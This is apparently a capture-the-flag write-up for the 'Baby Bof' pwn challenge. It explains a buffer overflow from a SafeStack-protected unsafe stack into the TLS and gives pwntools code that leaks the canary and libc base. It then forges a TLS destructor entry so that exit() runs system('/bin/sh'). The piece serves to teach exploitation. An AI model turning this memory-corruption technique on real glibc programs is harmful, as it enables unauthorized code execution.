




# Baby Bof

## Description

I made a funny little program. 

It was compiled with a lot of fancy protections, so I didn't even try to code securely.

Author: 0xdeadbeef

## Vulnerability

We can interract with the program in only 2 ways : 
    
1) We can politely ask for the flag. The program will then print our input back to us. It contains an obvious buffer overflow.
    
2) We can choose to give up. If we choose this option, the program will print a few lines and return from the *main* function.

A little reverse engineering shows us that the buffer in which the program puts our input is far too little to contain our input of 0x1337 bytes.
The thing is, the program was compiled using the clang *safe_stack* mechanism. In practice, it means that the program will divide the values that are normally stored on stacks between two distinct stacks.
    
* The *safe_stack* is situated under the ld, where you actually expect to find a stack in most programs. It stores the values the program has total control over, like return addresses, register spills and local variables that the user never touches.
    
* The *unsafe_stack* on the other hand stores basically everything else.

For more information about this mechanism, I suggest you read the [official documentation](https://clang.llvm.org/docs/SafeStack.html). 

## Exploitation

So we can overflow a buffer, but it is situated on the *unsafe_stack*, meaning we will not be able to overwrite any return address with it, preventing us to rop in the traditional way. But is it really the end ?

If we try to search where our user input is stored in memory, we find that it is actually just above where the *libc* is loaded. Or more accurately, just above the *tls*, which encompasses a memory range just above where the *libc* is loaded. And we just happen to have a pretty huge buffer overflow ...

And the program is nice enough to print our input back to us without adding any null byte to it, making it trivial to leak any value or address we might encounter on the way !

Btw, did I forget to tell you that the *tls* is always at a fix offset from *libc* ? 
And, you guessed it, the *unsafe_stack* is always at a fixed offset from the *tls* ;)

### Leaking interesting values

Like the *safe_stack*, the *unsafe_stack* is protected by a *stack_canary*. However, the program will only return when we choose the second option in the menu, so it is not of immediate concern to us. The following code will leak the values of the *stack_canary*, *libc* base address and *unsafe_stack* address.

```python
# Leaking the canary at the end of the safestack
send_payload(b"A"*0x49)
p.recvline()
canary = u64(b"\x00" + p.recvline()[-8:-1])
print("[*] Canary :", hex(canary))


# Leaking the address of the second parameter of setlocale
# Then use it to obtain the libc base address
send_payload(b"A"*0x50 + b"A"*0x698)
p.recvline()
leak = u64(p.recvline()[-7:-1] + b"\x00\x00")
print("[+] Leaked address of setlocale second parameter :", hex(leak))

libc.address = leak - 0x1D4580
print("[+] Libc base address :", hex(libc.address))

# Deduce the safestack address from the libc base address
safestack = libc.address - 0x803000
print("[+] Safe Stack base :", hex(safestack))

payload_addr = safestack + 0x7fffb0
print("[*] Payload starts at address :", hex(payload_addr))
```

### Getting code execution

But how can we use those informations to actually get a shell ?

First of all, controlling the *tls* allows us to overwrite pretty sensitive data (namely the *stack_canary* and the *ptr_mangler*), but it does not allow us to execute any code does it ?

We will answer this question soon, but allow me to ask another : "What the hell does the program do after it returns from main ?"
The answer is quite straightforward : it exits. Or more accurately, it gives the control back to *__libc_start_call_main* which the calls *exit*.

Well, if you actually disassemble the *exit* function in gdb, you will see the following : 



As you can see, *exit* calls another function named *__run_exit_handlers*. 
Let's look at its first lines of codes (you can read those [here](https://elixir.bootlin.com/glibc/glibc-2.37/source/stdlib/exit.c)): 


The first order of business of *__run_exit_handlers* is to call the TLS destructors using the function *__call_tls_dtors*. 
Let's dive a little deeper and look at its [code](https://elixir.bootlin.com/glibc/glibc-2.37/source/stdlib/cxa_thread_atexit_impl.c) too :



To wrap it up, this function will iterate over the list of TLS destructors. For each one, it dereferences the parameter *func* and demangles it. It then dereferences the parameter *obj* of the same destructor and uses it as the argument of *func*. 
As we already control the *tls*, pointer mangling is not a problem.

So we could try to create our very own *dtor_list*. One where *func* would be *system* and *obj* a pointer to the string "/bin/sh" for example :D.
We will only have to store a pointer to it in the *tls* and let *__run_exit_handlers* do the work !

```python
# Crafting a flase tls_dtors_struct
tls_dtors_struct = p64(rol(libc.sym["system"], 0x11, 64)) + p64(next(libc.search(b"/bin/sh"))) + p64(0) + p64(1)

# Saving the rest of the data found in the tls so nothing breaks
tls_data = p64(libc.address + 0x1d4580)
tls_data += p64(libc.address + 0x1dc440)
tls_data += p64(0)
tls_data += p64(libc.address + 0x17c4c0)
tls_data += p64(libc.address + 0x17cac0)
tls_data += p64(libc.address + 0x17d3c0)
tls_data += p64(payload_addr) # Address of tls_dtors_struct
tls_data += p64(0) * 10
tls_data += p64(payload_addr)
tls_data += p64(safestack)
tls_data += p64(0x0000000000800000)
tls_data += p64(0x0000000000001000)
tls_data += p64(libc.address - 0x28c0)
tls_data += p64(libc.address - 0x1f20)
tls_data += p64(libc.address - 0x28c0)
tls_data += p64(0) * 2
tls_data += p64(0) # Saved state of the canary in tls
tls_data += p64(0) # Saved state of the ptr_mangler in tls


send_payload(tls_dtors_struct + b"A"*0x28 + p64(canary)*2 + b"A"*0x698 + tls_data) 
exit()
```



Hope you enjoyed ^^
